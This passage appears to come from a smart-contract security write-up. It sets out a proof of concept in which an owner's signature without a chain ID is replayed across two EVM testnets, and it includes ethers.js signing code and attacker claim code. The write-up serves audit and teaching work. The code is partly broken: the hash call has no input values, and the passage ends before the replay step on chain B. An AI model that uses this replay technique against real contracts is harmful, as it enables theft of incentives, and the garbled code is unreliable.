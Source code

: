 This PoC uses the `VulnerableSignerValidator` contract from Section 8, based on findings like.

1. **Setup:**
    - Deploy the `VulnerableSignerValidator` contract (from Section 8) to two EVM chains:
        - **Chain A (e.g., Polygon Mumbai testnet, `chainID` 80001)** - the "cheaper" chain.
        - **Chain B (e.g., Ethereum Sepolia testnet, `chainID` 11155111)** - the "target" chain.
    - The `owner` of the contract is the same EOA address on both chains. Let this be `ownerWallet`.
    - Attacker has an address (`attackerClaimantAddress`).
2. Legitimate Action & Signature Generation (Owner on Chain A):
    
    The ownerWallet intends to authorize attackerClaimantAddress to claim an incentive on Chain A.
    
    ```JavaScript
    
    // Using ethers.js for owner to sign the message for Chain A's contract
    // ownerWallet is an ethers.Wallet instance for the contract owner
    
    const boostId = 1;
    const incentiveQuantity = 10;
    const incentiveData = ethers.utils.toUtf8Bytes("TestIncentive"); // Example data
    
    // Connect to VulnerableSignerValidator on Chain A
    // const contractAddressA = 'ADDRESS_OF_CONTRACT_ON_CHAIN_A';
    // const contractA = new ethers.Contract(contractAddressA, VulnerableSignerValidator_ABI, ownerWallet.provider);
    
    // Owner computes the actionHash (as the contract would, but locally)
    // Note: This is simplified. In a real scenario, the contract's getActionHash pure function could be called via eth_call
    // or the hash constructed client-side identically to the contract's logic.
    const actionHashChainA = ethers.utils.solidityKeccak256(
        ["uint256", "uint8", "address", "bytes32"],
    
    );
    // This hash is MISSING chainId
    
    const ethSignedMessageHashA = ethers.utils.hashMessage(ethers.utils.arrayify(actionHashChainA)); // Simulates toEthSignedMessageHash
    const signatureFromOwner = await ownerWallet.signMessage(ethers.utils.arrayify(actionHashChainA)); // Sign the raw actionHash
    
    console.log(`Signature from owner for Chain A action: ${signatureFromOwner}`);`
    
3. Claim on Chain A (Attacker):
    
    The attacker uses this signatureFromOwner to call claimIncentive on Chain A's contract instance. This is a legitimate claim on Chain A.
    
    ```JavaScript
    
    // Attacker (using a wallet connected to Chain A) calls claimIncentive
    // const attackerWalletA = new ethers.Wallet(attackerPrivateKey, providerA);
    // const contractInstanceA_Attacker = new ethers.Contract(contractAddressA, VulnerableSignerValidator_ABI, attackerWalletA);
    // const txA = await contractInstanceA_Attacker.claimIncentive(
    //     boostId, incentiveQuantity, attackerClaimantAddress, incentiveData, signatureFromOwner
    // );
    // await txA.wait();
    // console.log("Incentive claimed on Chain A successfully.");`
    